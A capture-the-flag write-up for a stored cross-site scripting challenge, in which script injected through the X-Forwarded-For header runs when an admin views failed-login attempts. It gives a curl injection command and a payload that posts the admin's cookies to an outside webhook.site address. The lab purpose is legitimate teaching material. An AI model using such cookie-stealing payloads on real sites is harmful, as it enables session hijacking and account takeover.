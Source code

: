 Description:
  The 'admin' is quite paranoid and he often checks whether someone is trying to access with his credentials on its website.

Explanation:
  The challenge is based on Cross-Site Scripting vulnerability.
  After register a new use and login, it is possible to view whether there has been some login attempts with wrong credentials.
  It's shown the source IP and the timestamp of the attempt in case of.
  By including the standard HTTP header to identify the origin IP (X-Forwarded-For), it is possible to change the source IP shown in the page.
  The server does not validate input on this header and it is vulnerable to XSS, thus by writing JS code in the header, the browser will execute it.

  Example:
  curl 'http://localhost:5000/login' -H 'X-Forwarded-For: <script>alert(1)</script>' --data 'username=test&password=wrong_password'
  By trying to login as 'test' user with wrong password and JS code in the header, the next time the user correctly login will see the alert popup

Write-up:
  The flag is stored inside cookies of the 'admin' user (as well as his session which can be used to login as 'admin').
  We have a bot which login as 'admin' every second in order to execute the injected JS code.
  In order to retrieve the flag, we have to inject code to send to a webhook server (i.e. free services like https://webhook.site/) the cookies of the user.

  Solution example:
  X-Forwarded-For: '<script>var xhr = new XMLHttpRequest(); xhr.open("POST", "https://webhook.site/02a161bb-5d64-4827-aaab-880654b0eccb"); xhr.send(document.cookie);</script> 
